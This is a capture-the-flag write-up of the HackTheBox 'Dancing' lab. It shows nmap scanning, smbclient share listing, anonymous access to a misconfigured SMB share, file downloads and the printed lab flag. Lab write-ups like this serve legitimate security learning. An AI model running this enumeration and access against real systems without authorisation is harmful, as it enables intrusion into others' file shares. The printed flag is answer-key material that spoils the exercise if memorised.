 # HackTheBox Dancing Box
Starting Point

2024-11-08

## Lab Setup

Downloaded OpenVPN file

Connected from Kali using command `openvpn /mnt/C/Users/Jonathan/Downloads/starting_point_jcaruso.ovpn`

VPN is not running as daemon

Opened second terminal and ran `kali`

Pinged 10.129.67.144 to confirm connectivity

	ping 10.129.67.144
	PING 10.129.67.144 (10.129.67.144) 56(84) bytes of data.
	64 bytes from 10.129.67.144: icmp_seq=1 ttl=127 time=46.2 ms
	64 bytes from 10.129.67.144: icmp_seq=2 ttl=127 time=47.2 ms
	64 bytes from 10.129.67.144: icmp_seq=3 ttl=127 time=1371 ms
	64 bytes from 10.129.67.144: icmp_seq=4 ttl=127 time=316 ms
	64 bytes from 10.129.67.144: icmp_seq=5 ttl=127 time=49.8 ms
	64 bytes from 10.129.67.144: icmp_seq=6 ttl=127 time=45.9 ms
	64 bytes from 10.129.67.144: icmp_seq=7 ttl=127 time=52.2 ms
	^C
	--- 10.129.67.144 ping statistics ---
	7 packets transmitted, 7 received, 0% packet loss, time 6062ms
	rtt min/avg/max/mdev = 45.857/275.378/1370.873/456.647 ms, pipe 2

SMB = Server Message Block
Port 445 TCP
SMB storage = share
Transport layer for Microsoft SMB most often used with is NetBIOS over TCP/IP (NBT) port 139

Usually requires credentials
Can allow login with guest accounts or anonymous accounts if configured insecurely

## Enumeration

### Port scanning with nmap

	sudo nmap -sV 10.129.67.144

	Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-08 12:29 EST
	Nmap scan report for 10.129.67.144
	Host is up (0.051s latency).
	Not shown: 997 closed tcp ports (reset)
	PORT    STATE SERVICE       VERSION
	135/tcp open  msrpc         Microsoft Windows RPC
	139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
	445/tcp open  microsoft-ds?
	Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 10.15 seconds

### Listing shares with smbclient

	smbclient -L 10.129.67.144
	Password for [WORKGROUP\****]:

			Sharename       Type      Comment
			---------       ----      -------
			ADMIN$          Disk      Remote Admin
			C$              Disk      Default share
			IPC$            IPC       Remote IPC
			WorkShares      Disk
	Reconnecting with SMB1 for workgroup listing.
	do_connect: Connection to 10.129.67.144 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
	Unable to connect with SMB1 -- no workgroup available

### Trying to connect to ADMIN$ and C$

	smbclient \\\\10.129.67.144\\ADMIN$
	Password for [WORKGROUP\****]:
	tree connect failed: NT_STATUS_ACCESS_DENIED

	smbclient \\\\10.129.67.144\\C$
	Password for [WORKGROUP\****]:
	tree connect failed: NT_STATUS_ACCESS_DENIED

## Foothold

	smbclient \\\\10.129.67.144\\WorkShares
	Password for [WORKGROUP\****]:
	Try "help" to get a list of possible commands.
	smb: \>

Successful connection to WorkShares with no password

### Listing directories and files

	smb: \> `ls`
	  .                                   D        0  Mon Mar 29 04:22:01 2021
	  ..                                  D        0  Mon Mar 29 04:22:01 2021
	  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
	  James.P                             D        0  Thu Jun  3 04:38:03 2021
  
### Downloading available files

	smb: \> cd Amy.J\
	smb: \Amy.J\> get worknotes.txt
	getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0.5 KiloBytes/sec) (average 0.3 KiloBytes/sec)
	smb: \Amy.J\> cd ..
	smb: \> cd James.P\
	smb: \James.P\> dir
	  .                                   D        0  Thu Jun  3 04:38:03 2021
	  ..                                  D        0  Thu Jun  3 04:38:03 2021
	  flag.txt                            A       32  Mon Mar 29 05:26:57 2021

					5114111 blocks of size 4096. 1733376 blocks available
	smb: \James.P\> get flag.txt
	getting file \James.P\flag.txt of size 32 as flag.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
	smb: \James.P\> exit

## Flag Captured!

	cat worknotes.txt
	- start apache server on the linux machine
	- secure the ftp server
	- setup winrm on dancing
	cat flag.txt
	5f61c10dffbc77a704d76016a22f1664